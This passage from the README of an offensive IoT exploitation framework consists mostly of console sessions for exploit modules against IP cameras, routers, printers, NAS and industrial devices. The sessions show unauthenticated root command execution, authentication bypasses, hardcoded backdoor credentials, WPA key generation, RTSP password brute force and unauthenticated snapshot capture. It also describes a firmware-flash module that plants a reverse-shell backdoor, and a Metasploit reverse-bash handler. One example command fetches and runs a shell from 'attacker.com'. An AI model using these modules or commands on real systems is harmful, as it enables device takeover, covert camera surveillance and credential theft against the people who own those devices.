Input : host=10.0.0.50, port=8080, scheme="http"
Output:
  status  = 200
  server  = "Hikvision IP Camera NVRA (V5.4.5)"
  methods = "OPTIONS, DESCRIBE, SETUP, PLAY, TEARDOWN"
```

### RTSP Module (Interactive)

```
embedxpl > use exploits/cameras/multi/rtsp_cameradar_attack
embedxpl (RTSP Cameradar Attack) > show options

  Option          Default    Description
  ------          -------    -----------
  target          required   Target IP/CIDR/range (e.g. 192.168.1.0/24)
  ports           554,5554,8554  RTSP ports to scan
  timeout         5          Connection timeout (seconds)
  scheme          rtsp       Transport: rtsp | rtsps | http | https
  skip_scan       false      Skip nmap discovery, attack directly
  output_m3u      false      Save accessible streams to streams.m3u
  onvif_discover  false      Enable ONVIF WS-Discovery

embedxpl (RTSP Cameradar Attack) > set target 192.168.1.0/24
embedxpl (RTSP Cameradar Attack) > set output_m3u true
embedxpl (RTSP Cameradar Attack) > run
```


## Nmap NSE Scripts

EmbedXPL-Forge includes 7 custom Nmap NSE scripts for IoT/camera scanning and CVE detection.

### Installation

```bash
# Install with NSE extras
pip install "embedxpl[nse]"

# Install scripts to Nmap (Linux/macOS may need sudo)
python -m embedxpl.nse install
# or
embedxpl-nse install

# Force overwrite existing scripts
python -m embedxpl.nse install --force

# Custom Nmap directory
python -m embedxpl.nse install --nse-dir /opt/homebrew/share/nmap/scripts
```

**Expected output:**
```
  [OK]   embedxpl-rtsp-discover.nse → /usr/share/nmap/scripts/embedxpl-rtsp-discover.nse
  [OK]   embedxpl-camera-identify.nse → /usr/share/nmap/scripts/embedxpl-camera-identify.nse
  [OK]   embedxpl-hikvision-vuln.nse → /usr/share/nmap/scripts/embedxpl-hikvision-vuln.nse
  [OK]   embedxpl-dahua-vuln.nse → /usr/share/nmap/scripts/embedxpl-dahua-vuln.nse
  [OK]   embedxpl-rtsp-creds.nse → /usr/share/nmap/scripts/embedxpl-rtsp-creds.nse
  [OK]   embedxpl-iot-cve-check.nse → /usr/share/nmap/scripts/embedxpl-iot-cve-check.nse
  [OK]   embedxpl-camera-snapshot.nse → /usr/share/nmap/scripts/embedxpl-camera-snapshot.nse

Installed: 7 script(s)
  [OK] nmap --script-updatedb complete
```

### List / Info

```bash
python -m embedxpl.nse list
python -m embedxpl.nse info rtsp-discover
```

### NSE Script Reference

#### `embedxpl-rtsp-discover` — RTSP Service Discovery

Detects RTSP services, grabs the `Server:` banner, identifies vendor, lists supported methods, and cross-references known CVEs.

```bash
# Basic usage
nmap -p 554,5554,8554 --script embedxpl-rtsp-discover 192.168.1.0/24

# With custom timeout
nmap -p 554,5554,8554 --script embedxpl-rtsp-discover --script-args rtsp.timeout=3 192.168.1.0/24
```

**Expected output:**
```
554/tcp open rtsp
| embedxpl-rtsp-discover:
|   Status : 200
|   Server : Hikvision IP Camera NVRA (V5.4.5)
|   Methods: OPTIONS, DESCRIBE, SETUP, PLAY, TEARDOWN
|   Vendor : Hikvision
|   Known CVEs: CVE-2021-36260 (RCE, CVSS 9.8), CVE-2017-7921 (Auth Bypass)
|   EmbedXPL module: exploits/cameras/hikvision/rtsp_rce_cve_2021_36260
|   Exploit hint: embedxpl > use exploits/cameras/hikvision/rtsp_rce_cve_2021_36260
|_  Full attack: embedxpl > use exploits/cameras/multi/rtsp_cameradar_attack
```


#### `embedxpl-camera-identify` — Deep Camera Fingerprinting

Multi-protocol identification: probes HTTP/HTTPS web UI, RTSP banner, and ONVIF. Extracts vendor, model, firmware, serial, and MAC.

```bash
nmap -p 80,443,554,37777 --script embedxpl-camera-identify 192.168.1.100
nmap -sV -p- --script embedxpl-camera-identify 192.168.1.0/24
```

**Expected output (Hikvision):**
```
80/tcp open http
| embedxpl-camera-identify:
|   Protocol : HTTP (HTTP 200)
|   Vendor   : Hikvision
|   Model    : DS-2CD2143G0-I
|   Firmware : V5.6.2 build 190401
|   Serial   : DS-2CD2143G0-I20190401AAWRA123456789
|   CVEs     : CVE-2021-36260 (RCE, CVSS 9.8) | CVE-2017-7921 (Auth Bypass)
|   Vuln assessment: LIKELY VULNERABLE (endpoint accessible without auth)
|   EmbedXPL module: exploits/cameras/hikvision/rtsp_rce_cve_2021_36260
|_  Run exploit: embedxpl > use exploits/cameras/hikvision/rtsp_rce_cve_2021_36260
```


#### `embedxpl-hikvision-vuln` — Hikvision CVE Checker

Active validation of CVE-2021-36260 (RCE via `/SDK/webLanguage`, CVSS 9.8) and CVE-2017-7921 (auth bypass snapshot).

```bash
nmap -p 80,443,8080 --script embedxpl-hikvision-vuln 192.168.1.100
nmap -p 80,443,8080 --script embedxpl-hikvision-vuln --script-args timeout=10 192.168.1.0/24
```

**Expected output:**
```
80/tcp open http
| embedxpl-hikvision-vuln:
|   Device          : DS-2CD2143G0-I
|   Firmware        : V5.3.0 build 170112
|   CVE-2021-36260  : VULNERABLE — endpoint accepts PUT without authentication (CVE-2021-36260, CVSS 9.8)
|   CVE-2017-7921   : VULNERABLE — snapshot captured without valid credentials (CVE-2017-7921)
|   EmbedXPL RCE module  : exploits/cameras/hikvision/rtsp_rce_cve_2021_36260
|   EmbedXPL Auth Bypass : exploits/cameras/hikvision/info_disclosure_cve_2017_7921
|_  Run full exploit: embedxpl > use exploits/cameras/hikvision/rtsp_rce_cve_2021_36260
```


#### `embedxpl-dahua-vuln` — Dahua CVE Checker

Tests CVE-2021-33044 (auth bypass, CVSS 9.8), CVE-2020-25078 (user disclosure), CVE-2013-6117 (legacy DVR). Also covers Dahua OEMs: Amcrest, Intelbras, TVT, Jovision, ANNKE.

```bash
nmap -p 80,37777 --script embedxpl-dahua-vuln 192.168.1.0/24
```

**Expected output:**
```
80/tcp open http
| embedxpl-dahua-vuln:
|   Vendor         : Dahua (or Dahua-OEM: Amcrest / Intelbras / TVT)
|   CVE-2021-33044 : VULNERABLE — snapshot captured via Digest bypass (CVE-2021-33044, CVSS 9.8)
|   CVE-2020-25078 : VULNERABLE — Users disclosed: [admin, operator]
|   CVE-2013-6117  : NOT VULNERABLE
|   EmbedXPL Auth Bypass  : exploits/cameras/dahua/cctv_auth_bypass_cve_2021_33044
|   EmbedXPL Cred Extract : exploits/cameras/dahua/cctv_37777_credential_extraction
|_  Run exploit: embedxpl > use exploits/cameras/dahua/cctv_auth_bypass_cve_2021_33044
```


#### `embedxpl-rtsp-creds` — RTSP Default Credential Tester

Tests 18 default credential pairs across 9+ common RTSP routes using Basic auth. Reports the first match.

```bash
nmap -p 554,5554,8554 --script embedxpl-rtsp-creds 192.168.1.100

# With custom route hint
nmap -p 554 --script embedxpl-rtsp-creds --script-args rtsp.route=live.sdp 192.168.1.100
```

**Expected output:**
```
554/tcp open rtsp
| embedxpl-rtsp-creds:
|   Server           : Hikvision IP Camera NVRA
|   Credential found : admin: (empty password)
|   Stream URL       : rtsp://admin:@192.168.1.100:554/h264/ch1/main/av_stream
|   Auth type        : Basic
|   Response code    : 200
|   EmbedXPL full scan : exploits/cameras/multi/rtsp_cameradar_attack
|_  Run exploit: embedxpl > use exploits/cameras/multi/rtsp_cameradar_attack
```


#### `embedxpl-iot-cve-check` — Multi-Vendor CVE Fingerprint

Detects and validates 10 active CVEs across Hikvision, Dahua, D-Link NAS, Reolink, Uniview, QNAP, SonicWall, and GPON.

```bash
nmap -p 80,443,8080 --script embedxpl-iot-cve-check 192.168.1.0/24
```

**Expected output:**
```
80/tcp open http
| embedxpl-iot-cve-check:
|   CVE-2021-36260 (Hikvision, CVSS 9.8): POSSIBLY VULNERABLE — HTTP 200 returned
|     → EmbedXPL: CVE-2021-36260 : use exploits/cameras/hikvision/rtsp_rce_cve_2021_36260
|   CVE-2021-33044 (Dahua, CVSS 9.8)   : NOT VULNERABLE — HTTP 404
|   EmbedXPL-Forge: https://github.com/mrhenrike/EmbedXPL-Forge
|_  Full exploitation: pip install embedxpl && embedxpl
```


#### `embedxpl-camera-snapshot` — Unauthenticated Snapshot Access

Probes 16 vendor-specific snapshot endpoints. Reports any URL returning `image/*` without credentials. Optionally saves JPEG files locally.

```bash
nmap -p 80,443,8080 --script embedxpl-camera-snapshot 192.168.1.100

# Save snapshots to disk
nmap -p 80 --script embedxpl-camera-snapshot --script-args outdir=/tmp/snaps 192.168.1.0/24
```

**Expected output:**
```
80/tcp open http
| embedxpl-camera-snapshot:
|   Endpoint 1 (Dahua):
|     URL          : http://192.168.1.100:80/cgi-bin/snapshot.cgi?channel=1
|     Content-Type : image/jpeg
|     Size         : 45231 bytes
|     Access       : UNAUTHENTICATED SNAPSHOT ACCESS
|     EmbedXPL module: exploits/cameras/dahua/cctv_auth_bypass_cve_2021_33044
|_    Run exploit: embedxpl > use exploits/cameras/dahua/cctv_auth_bypass_cve_2021_33044
```

### Run All NSE Scripts via Python

```bash
# Run all scripts via embedxpl-nse CLI
python -m embedxpl.nse run --target 192.168.1.0/24 --scripts all

# Run specific scripts
python -m embedxpl.nse run --target 192.168.1.100 --scripts rtsp-discover,hikvision-vuln

# With output file
python -m embedxpl.nse run --target 192.168.1.0/24 --scripts all --output /tmp/scan.txt

# Custom ports
python -m embedxpl.nse run --target 192.168.1.0/24 --scripts all --ports 80,443,554,5554,8080,8554
```

**Uninstall:**
```bash
python -m embedxpl.nse uninstall
```


## Firmware Exploitation

```
embedxpl > use exploits/firmware/netgear_firmware_flash
embedxpl (NETGEAR Firmware Flash) > set target 192.168.1.1
embedxpl (NETGEAR Firmware Flash) > set firmware /path/to/backdoored.bin
embedxpl (NETGEAR Firmware Flash) > set lhost 10.0.0.10
embedxpl (NETGEAR Firmware Flash) > set lport 4444
embedxpl (NETGEAR Firmware Flash) > run
```

**What it does:**
1. Detects firmware format (TRX, DLOB, SEAMA, WRGG, raw binary)
2. Injects reverse shell backdoor at a suitable offset
3. Recalculates CRC32/MD5 checksum
4. Uploads via vendor-specific flash endpoint (bypassing auth where applicable)
5. Waits for device reboot and verifies backdoor execution


## PolyExploit Orchestrator

Enables runtime C/C++ compilation and multi-language script execution for exploits not portable to pure Python.

### C/C++ Runtime Compilation

```python
from embedxpl.core.poly import CCompiler

compiler = CCompiler()

# Check available compilers
print(compiler.compiler_available())  # {'gcc': True, 'clang': False, 'mingw': False}

# Compile a C PoC exploit at runtime
binary = compiler.compile_c(
    source="""
#include <stdio.h>
#include <string.h>
int main(int argc, char *argv[]) {
    // Stack overflow PoC
    char buf[64];
    memcpy(buf, argv[1], atoi(argv[2]));
    return 0;
}
""",
    arch="x86",   # x86, x64, arm, mips, mingw
)
# Returns: Path to compiled binary (cached by source hash)

# Execute with arguments
output = compiler.run_binary(binary, args=["AAAA"*100, "400"])
print(output.stdout)
```

### Multi-Language Script Execution

```python
from embedxpl.core.poly import PolyRunner

runner = PolyRunner()
print(runner.available_runtimes())
# {'ruby': True, 'node': True, 'php': True, 'bash': True, 'perl': True}

# Execute a Ruby exploit
result = runner.run_ruby("""
require 'net/http'
resp = Net::HTTP.get_response(URI('http://192.168.1.1/cgi-bin/exploit'))
puts resp.body
""", args=["192.168.1.1"])

# Metasploit integration
runner.run_metasploit(module="exploit/multi/handler", options={
    "PAYLOAD": "cmd/unix/reverse_bash",
    "LHOST": "10.0.0.10",
    "LPORT": "4444",
})

# ExploitDB / searchsploit lookup
results = runner.searchsploit("hikvision rtsp")
for r in results:
    print(r["Title"], r["Path"])
```


## New in v3.1.0 — CVE 2026/2025/2024 + Printer Domain + Quality Gates

**54 new modules** across printers, embedded OS, ICS/OT, smart home, maritime IoT, and 2026 Pwn2Own chains. Key highlights:

### 2026 Pwn2Own Chains

```
# CUPS Pwn2Own 2026 — Full 4-stage chain (CVE-2026-34477/78/79/80, CVSS 9.9)
exf > use exploits/printers/linux/cups_pwn2own_chain_cve_2026_34480
exf (CUPS Pwn2Own Chain) > set target 192.168.1.10
exf (CUPS Pwn2Own Chain) > set delay 2
exf (CUPS Pwn2Own Chain) > run
[*] [Stage 1/4] Triggering UAF in cups-browsed (CVE-2026-34477)
[*] [Stage 2/4] Heap spray via IPP job attributes (CVE-2026-34478)
[*] [Stage 3/4] ROP chain LPE delivery (CVE-2026-34479)
[*] [Stage 4/4] Chain complete - verifying
[+] CUPS process no longer responding - chain executed

# Lexmark Pwn2Own 2026 — 3-stage chain
exf > use exploits/printers/lexmark/lexmark_pwn2own_2026_chain
exf (Lexmark Pwn2Own) > set target 192.168.1.20
exf (Lexmark Pwn2Own) > run
```

### Critical 2026 CVEs

```
# wolfSSL identity forgery (CVE-2026-5194, CVSS 9.3, ~5B devices)
exf > use exploits/embedded_os/wolfssl_identity_forgery_cve_2026_5194
exf (wolfSSL Identity Forgery) > set target 192.168.1.1
exf (wolfSSL Identity Forgery) > set port 443
exf (wolfSSL Identity Forgery) > run

# PAN-OS User-ID BOF (CVE-2026-0300, CVSS 9.8, active exploitation)
exf > use exploits/firewalls/paloalto/panos_userid_bof_rce_cve_2026_0300
exf (PAN-OS User-ID BOF) > set target 10.0.0.1
exf (PAN-OS User-ID BOF) > set port 443
exf (PAN-OS User-ID BOF) > run

# Universal Robots PolyScope 5 (CVE-2026-8153, CVSS 9.8, unauth OS cmd injection)
exf > use exploits/ics/ur_polyscope5_dashboard_cmd_injection_cve_2026_8153
exf (UR PolyScope5 Injection) > set target 192.168.1.50
exf (UR PolyScope5 Injection) > set cmd "id"
exf (UR PolyScope5 Injection) > run
[*] Connecting to PolyScope Dashboard on 192.168.1.50:29999
[+] PolyScope Dashboard Server detected
[*] Attempting OS command injection (CVE-2026-8153)
[+] Command injection confirmed!
[+] Output: uid=0(root) gid=0(root)

# GNU InetUtils telnetd auth bypass (CVE-2026-24061, CVSS 9.8, unauth root)
exf > use exploits/embedded_os/gnu_inetutils_telnetd_auth_bypass_cve_2026_24061
exf (InetUtils telnetd Bypass) > set target 192.168.1.1
exf (InetUtils telnetd Bypass) > set cmd "id"
exf (InetUtils telnetd Bypass) > run
[*] Sending CVE-2026-24061 bypass payload
[+] Authentication bypass succeeded! Shell prompt detected
[+] Command output: uid=0(root)

# Metis maritime IoT (CVE-2026-2248, CVSS 9.8, unauth root shell)
exf > use exploits/specialized/metis_wic_unauth_rce_cve_2026_2248
exf (Metis WIC RCE) > set target 10.1.2.3
exf (Metis WIC RCE) > run

# Cisco IOS XE WLC hardcoded JWT (CVE-2025-20188, CVSS 10.0)
exf > use exploits/routers/cisco/ios_xe_wlc_jwt_rce_cve_2025_20188
exf (Cisco WLC JWT RCE) > set target 10.0.0.1
exf (Cisco WLC JWT RCE) > set port 443
exf (Cisco WLC JWT RCE) > run
```

### Printer Arsenal Examples

```
# HP PJL full scan (native — no external tools)
exf > use exploits/printers/hp/hp_laserjet_pjl_scan_native
exf (HP PJL Scanner) > set target 192.168.1.100
exf (HP PJL Scanner) > run
[+] PJL interface reachable
[+] INFO ID: HP LASERJET PRO M402N
INFO STATUS     : READY
INFO PAGECOUNT  : 12847
INFO MEMORY     : 512000 BYTES

# Ricoh HTTP buffer overflow (CVE-2024-34161, CVSS 9.8)
exf > use exploits/printers/ricoh/ricoh_http_bof_cve_2024_34161
exf (Ricoh HTTP BOF) > set target 192.168.1.101
exf (Ricoh HTTP BOF) > run

# Brother LDAP credential passback
exf > use exploits/printers/brother/brother_ldap_smb_passback
exf (Brother LDAP Passback) > set target 192.168.1.102
exf (Brother LDAP Passback) > set attacker_ip 192.168.1.10
exf (Brother LDAP Passback) > run
[+] LDAP server redirected — wait for printer authentication
```

### Backdoor / Factory Password Coverage

27+ exploit modules targeting factory passwords, hardcoded backdoors, default WPA key generation algorithms, and DNS hijack CSRF vectors across legacy and modern SOHO routers. Key examples:

```
# EasyBox (Arcadyan) — WPA2 default key from MAC (factory algorithm)
exf > use exploits/routers/easybox/easybox_wpa_keygen
exf (EasyBox WPA Keygen) > set target 192.168.1.1
exf (EasyBox WPA Keygen) > run
[*] No MAC supplied — attempting to extract from web UI...
[+] MAC found: AA:BB:CC:DD:EE:FF
[+] Device MAC  : AA:BB:CC:DD:EE:FF
[+] WPA2 PSK    : 3f2d9a1b

# Seagate NAS — Ghost PHP unauthenticated RCE (CVE-2014-8684)
exf > use exploits/routers/seagate/seagate_nas_php_backdoor
exf (Seagate Ghost PHP) > set target 192.168.1.100
exf (Seagate Ghost PHP) > set cmd "id; uname -a"
exf (Seagate Ghost PHP) > run
[*] Sending command via Ghost PHP backdoor: 'id; uname -a'
[+] RCE successful — output:
    uid=0(root) gid=0(root) groups=0(root)
    Linux NAS 3.10.14 #1 SMP armv7l

# Alpha Networks / ZTE — web_shell_cmd.gch backdoor
exf > use exploits/routers/alpha_networks/web_shell_cmd_rce
exf (Alpha Networks web_shell_cmd RCE) > set target 192.168.1.1
exf (Alpha Networks web_shell_cmd RCE) > set cmd "cat /etc/passwd"
exf (Alpha Networks web_shell_cmd RCE) > run
[*] Sending command to /web_shell_cmd.gch: 'cat /etc/passwd'
[+] Response from backdoor shell:
    root:x:0:0:root:/root:/bin/sh
    ...

# RuggedCom — factory backdoor password generator (FD 2012/Apr/277)
exf > use exploits/routers/ruggedcom/ruggedcom_factory_password
exf (RuggedCom Factory Password) > set target 192.168.1.1
exf (RuggedCom Factory Password) > set serial RA000000
exf (RuggedCom Factory Password) > run
[+] Serial Number  : RA000000
[+] Backdoor user  : factory
[+] Backdoor pass  : 7f3d9a2b

# Alcatel-Lucent OmniPCX Enterprise — masterCGI RCE
exf > use exploits/routers/alcatel_lucent/omnipcx_masterCGI_rce
exf (OmniPCX RCE) > set target 192.168.1.10
exf (OmniPCX RCE) > set cmd "id"
exf (OmniPCX RCE) > run
[*] Injecting command: 'id' via /cgi-bin/masterCGI?ping=127.0.0.1&user=;id;
[+] Response (command output may be embedded): uid=0(root) ...

# TRENDnet camera — unauthenticated MJPEG live stream
exf > use exploits/routers/trendnet/camera_mjpeg_unauth
exf (TRENDnet MJPEG) > set target 192.168.1.50
exf (TRENDnet MJPEG) > run
[+] LIVE STREAM accessible (no auth): /anony/mjpg.cgi
[+] Stream URL: http://192.168.1.50:80/anony/mjpg.cgi

# Netgear WG602 — hardcoded backdoor credentials
exf > use exploits/routers/netgear/wg602_superman_backdoor
exf (WG602 Backdoor) > set target 192.168.1.1
exf (WG602 Backdoor) > run
[+] Backdoor login SUCCESS: super:5777364
[*] Admin panel: http://192.168.1.1:80/
```

**All 27 new vendors/modules:**
`alcatel_lucent` · `alpha_networks` · `astoria` · `binatone` · `ddwrt` · `easybox` · `ee` · `freebox` · `mifi` · `motorola` · `observa` · `ruggedcom` · `seagate` · `sitecom` · `starbridge` · `ubee` · `unicorn` · `utstarcom` · `zoom` · plus belkin, netgear, trendnet gap-fills.


## Module Structure

```
embedxpl/
├── core/
│   ├── rtsp/          # RTSP camera engine
│   │   ├── client.py  # Raw socket RTSP client (OPTIONS/DESCRIBE/auth/TLS/HTTP-tunnel)
│   │   ├── attacker.py# 5-phase attack pipeline (route→auth→creds→validate→re-attack)
│   │   ├── scanner.py # Network discovery (nmap/masscan/direct), CIDR/range expansion
│   │   └── models.py  # RTSPStream dataclass, AuthType enum
│   └── poly/
│       ├── compiler.py# CCompiler — runtime C/C++ compilation (gcc/clang/mingw/cross)
│       └── runner.py  # PolyRunner — Ruby/Node/PHP/Bash/Perl + Metasploit + ExploitDB
├── modules/
│   ├── creds/             # Credential testing (FTP, SSH, Telnet, HTTP, SNMP)
│   ├── exploits/
│   │   ├── cameras/       # IP camera exploits by vendor
│   │   │   ├── multi/     # Multi-vendor (RTSP attack engine, P2P, ONVIF)
│   │   │   ├── hikvision/ # Hikvision (CVE-2021-36260, CVE-2017-7921, ...)
│   │   │   ├── dahua/     # Dahua + OEMs (CVE-2021-33044, CVE-2020-25078, ...)
│   │   │   ├── axis/      # Axis (CVE-2018-10660, ...)
│   │   │   ├── reolink/   # Reolink (CVE-2021-40655, CVE-2022-30600)
│   │   │   ├── amcrest/   # Amcrest (CVE-2019-3950)
│   │   │   ├── uniview/   # Uniview UNV (CVE-2024-37630)
│   │   │   ├── tapo/      # TP-Link Tapo (CVE-2021-4045)
│   │   │   ├── annke/     # ANNKE DVR/NVR (CVE-2021-32941)
│   │   │   ├── swann/     # Swann DVR/NVR (default creds + RTSP)
│   │   │   └── edimax/    # Edimax IC-7100 (CVE-2025-1316, CISA KEV)
│   │   ├── firmware/      # Firmware flash bypass (NETGEAR, TP-Link, D-Link, ASUS)
│   │   ├── nas/           # NAS exploits (QNAP, D-Link NAS, Zyxel)
│   │   ├── routers/       # Router exploits by vendor (85 vendor folders — see full list below)
│   │   ├── vpn/           # VPN/firewall appliances (Ivanti, Fortinet, SonicWall)
│   │   ├── switches/      # Switch exploits (Cisco, D-Link, NETGEAR)
│   │   └── soho_edge/     # SOHO edge device exploits
│   ├── scanners/          # Network scanning and AutoPwn
│   ├── payloads/          # Reverse/bind shells (multi-arch)
│   ├── encoders/          # Payload encoding (Base64, Hex)
│   └── generic/           # CVE lookup, SNMP, UPnP, SSDP, wordlist tools
├── nse/                   # NSE script manager (Python)
│   ├── manager.py         # NSEManager class — install/uninstall/list/run
│   └── __main__.py        # CLI: python -m embedxpl.nse
├── resources/
│   └── rtsp/
│       ├── routes.txt      # 195+ RTSP stream paths
│       └── credentials.json# 80+ default username:password pairs
└── data/
    └── oui.txt             # IEEE OUI database for MAC-to-vendor lookup

nse/                        # Nmap NSE Lua scripts (pip install embedxpl[nse])
├── embedxpl-rtsp-discover.nse
├── embedxpl-camera-identify.nse
├── embedxpl-hikvision-vuln.nse
├── embedxpl-dahua-vuln.nse
├── embedxpl-rtsp-creds.nse
├── embedxpl-iot-cve-check.nse
└── embedxpl-camera-snapshot.nse
```

## Extended Module Coverage

This section documents the ISP device modules, backdoor/factory password exploits, RTSP client framework, OSINT tools, and specialized security modules.

---

### ISP Device Security Modules

Exploits and scanners targeting ISP-issued CPEs and IP cameras commonly deployed by internet providers (Sercomm-based ONTs, GPON CPEs, and ISP-branded devices).

| Device | CVE | Module Path | Attack Type |
|--------|-----|-------------|-------------|
| TP-Link TL-SC3171 / SC4171 / SC4171G | CVE-2013-2573 | `exploits/cameras/tplink/tl_sc_series_cmd_inject_cve_2013_2573` | Command Injection (unauth) |
| TP-Link TL-SC3171 / SC3130 | CVE-2013-2581 | `exploits/cameras/tplink/tl_sc_series_unauth_firmware_upload_cve_2013_2581` | Unauthenticated Firmware Upload |
| D-Link DCS-932L | CVE-2026-36983 | `exploits/cameras/dlink/dcs_932l_light_sensor_rce_cve_2026_36983` | Light Sensor RCE |
| D-Link DCS-932L | CVE-2025-5573 | `exploits/cameras/dlink/dcs_932l_admin_cmd_inject_cve_2025_5573` | Admin Panel Command Injection |
| D-Link DCS-933L | CVE-2026-2218 | `exploits/cameras/dlink/dcs_933l_admin_cmd_inject_cve_2026_2218` | Admin Panel Command Injection |
| ZTE ZXHN H267N / H268N | CVE-2026-34473 | `exploits/routers/zte/zxhn_h267n_h268n_dos_cve_2026_34473` | Denial of Service |
| ZTE ZXHN H298A / H108N | CVE-2026-34474 | `exploits/routers/zte/zxhn_h298a_cred_dump_cve_2026_34474` | Credential Dump (ETHCheat) |
| Intelbras IWR routers | - | `exploits/routers/intelbras/iwr_luci_rpc_rce` | LuCI RPC Unauthenticated RCE |
| Multi-vendor BR ISP scanner | - | `scanners/specialized/br_isp_scanner` | Active discovery + vuln check |

**Usage examples:**

```bash
# ZTE ZXHN H298A Credential Dump
embedxpl use routers/zte/zxhn_h298a_cred_dump_cve_2026_34474
embedxpl (ZXHNCred) > set rhost 192.168.1.1
embedxpl (ZXHNCred) > run

# Expected output (vulnerable device):
[+] Connected to 192.168.1.1:80
[+] Sending ETHCheat request: GET /getpage.lua?pid=1000&ETHCheat=1
[!] VULNERABLE: Credentials exposed
    Admin Password: admin123
    WLAN PSK: MyWifiPass
    SSID: ZTE_Router_ABC

# Sample output (not vulnerable):
[-] No credential fields found in response
[-] Target may be patched or different firmware
```

```bash
# Intelbras IWR LuCI RPC RCE
embedxpl use routers/intelbras/iwr_luci_rpc_rce
embedxpl (IWRLuci) > set rhost 192.168.0.1
embedxpl (IWRLuci) > set cmd "id"
embedxpl (IWRLuci) > run

# Expected output:
[+] LuCI RPC endpoint found at /cgi-bin/luci/rpc/sys
[+] RCE via sys.exec: uid=0(root) gid=0(root)
```

```bash
# Brazilian ISP multi-vendor scanner
embedxpl use scanners/specialized/br_isp_scanner
embedxpl (BRISPScan) > set target 192.168.0.0/24
embedxpl (BRISPScan) > run
```

**Notes:** CVE-2026-34474 affects ZTE ZXHN H298A 1.1 and H108N 2.6. No authentication required.
**Legal:** Use only on devices you own or have written authorization to test.

---

### Legacy Router Backdoor and Factory Password Modules

Classic router backdoor and factory password exploits implemented in the EmbedXPL-Forge module format.

| Device | CVE / Reference | Module Path | Attack Type |
|--------|----------------|-------------|-------------|
| Cobham Aviator 700 SATCOM | CVE-2014-2943 | `exploits/specialized/vsat/cobham_aviator_admin_reset_cve_2014_2943` | Admin Password Reset (unauth) |
| Huawei HG8245H | - | `osint/keygen/huawei_hg8245_wpa_keygen` | WPA Default Key Generator |
| Alcatel-Lucent OmniPCX Enterprise | - | `exploits/voip/alcatel_lucent/omnipcx_enterprise_mastercgi_rce` | masterCGI Unauthenticated RCE |
| Linksys E-Series (The Moon) | EDB-31683 | `exploits/routers/linksys/eseries_themoon_rce_tmunblock` | tmUnblock.cgi RCE |
| NETGEAR DGN2200 | EDB-24665 | `exploits/routers/netgear/dgn2200_open_telnetd_rce` | open-telnetd Unauthenticated RCE |
| Siemens FlexiISN | - | `exploits/routers/siemens/flexiisn_auth_bypass` | Authentication Bypass |
| Thomson BTHomeHub | - | `exploits/routers/thomson/bthomehub_voice_hijack` | VoIP Configuration Hijack |
| AT&T 2Wire Gateway | - | `exploits/routers/two_wire/atandt_gateway_crlf_dos` | CRLF Injection / DoS |

**Usage examples:**

```bash
# Cobham Aviator admin reset (VSAT / Satellite terminal)
embedxpl use specialized/vsat/cobham_aviator_admin_reset_cve_2014_2943
embedxpl (CobhamReset) > set rhost 192.168.1.1
embedxpl (CobhamReset) > run

# Expected output:
[+] Connected to Cobham Aviator 700 interface
[+] Sending unauthenticated admin reset request
[!] VULNERABLE: Admin password reset to default

# Linksys eSeries The Moon RCE
embedxpl use routers/linksys/eseries_themoon_rce_tmunblock
embedxpl (TheMoon) > set rhost 192.168.1.1
embedxpl (TheMoon) > set cmd "busybox wget http://attacker.com/shell -O /tmp/sh && chmod +x /tmp/sh && /tmp/sh"
embedxpl (TheMoon) > run

# Huawei HG8245H WPA keygen
embedxpl use osint/keygen/huawei_hg8245_wpa_keygen
embedxpl (HuaweiKeygen) > set ssid "HG8245H-ABCDEF"
embedxpl (HuaweiKeygen) > run
# Output: [+] Predicted WPA key: xA7z3k9P
```

**Notes:** The Moon worm (Linksys E-Series CVE) exploits tmUnblock.cgi without authentication on firmware < 2.0.08.
**Legal:** Use only on devices you own or have written authorization to test.

---

### RTSP Client Framework

A pure Python RFC 2326 RTSP/1.0 client library used as the foundation for all RTSP camera attack modules.

**Module:** `network/rtsp/rtsp_client.py` - `RTSPClient` class

**Features:**
- OPTIONS, DESCRIBE, SETUP, PLAY, TEARDOWN methods
- Basic and Digest authentication (RFC 2617)
- SDP session description parsing
- Auto-reconnect and socket timeout management
- Context manager support (`with RTSPClient(...) as client`)

**Usage example:**

```bash
# Direct Python API usage
python3 -c "
from embedxpl.modules.network.rtsp.rtsp_client import RTSPClient
with RTSPClient('192.168.1.10', 554, timeout=5) as client:
    resp = client.describe('/live/ch0')
    if resp.status_code == 200:
        sdp = client.parse_sdp(resp.body)
        print(f'Streams: {[s.media_type for s in sdp.streams]}')
"
```

```bash
# RTSP credential brute force (uses RTSPClient internally)
embedxpl use network/rtsp/rtsp_cred_brute
embedxpl (RTSPBrute) > set rhost 192.168.1.10
embedxpl (RTSPBrute) > set rport 554
embedxpl (RTSPBrute) > set path /live/ch0
embedxpl (RTSPBrute) > run

# Expected output:
[+] Trying admin:admin ... 401 Unauthorized
[+] Trying admin:12345 ... 200 OK
[!] VALID: admin:12345
```

**Requirements:** Python 3.8+, no external dependencies.

---

### FCC-ID Lookup Module

OSINT module that queries the FCC Equipment Authorization database to retrieve device details from FCC ID codes found on hardware labels.

**Module:** `osint/fcc_id_lookup.py`

**Usage example:**

```bash
embedxpl use osint/fcc_id_lookup
embedxpl (FCCLookup) > set fcc_id "PD5-WNR3500U"
embedxpl (FCCLookup) > run

# Expected output:
[+] FCC ID: PD5-WNR3500U
    Grantee: NETGEAR Inc.
    Product: WNR3500U Wireless-N Gigabit Router
    Frequency: 2.4GHz / 5GHz
    Authorization: OET-65C (mobile device)
    Test Lab: SGS
    Grant Date: 2009-11-18
    Internal Photos: [URL]
    External Photos: [URL]
    Test Reports: [URL]
```

**Tips:**
- FCC IDs are printed on device labels (format: `GRANTEE_CODE-PRODUCT_CODE`)
- Use for identifying OEM hardware, firmware base, or supplier chain
- Combine with `osint/github_recon` to find public firmware repos for the device

**Requirements:** Internet access, `requests` library.

---

### Camera URL Generator

Generates known camera stream URLs based on vendor, model, and firmware version, using the iSpy camera database format.

**Module:** `osint/camera_url_generator.py`

**Usage example:**

```bash
embedxpl use osint/camera_url_generator
embedxpl (CameraURL) > set vendor "hikvision"
embedxpl (CameraURL) > set model "DS-2CD2143G2"
embedxpl (CameraURL) > run

# Expected output:
[+] Known stream URLs for Hikvision DS-2CD2143G2:
    [1] rtsp://<ip>:554/Streaming/Channels/101
    [2] rtsp://<ip>:554/Streaming/Channels/102
    [3] rtsp://<ip>:554/h264/ch1/main/av_stream
    [4] http://<ip>/ISAPI/Streaming/channels/1/picture
    [5] http://<ip>/onvif/device_service

# Generate wordlist for RTSP brute force
embedxpl (CameraURL) > set output_file /tmp/hikvision_routes.txt
embedxpl (CameraURL) > run
```

**Tips:**
- Combine with `network/rtsp/rtsp_route_brute` to enumerate live streams
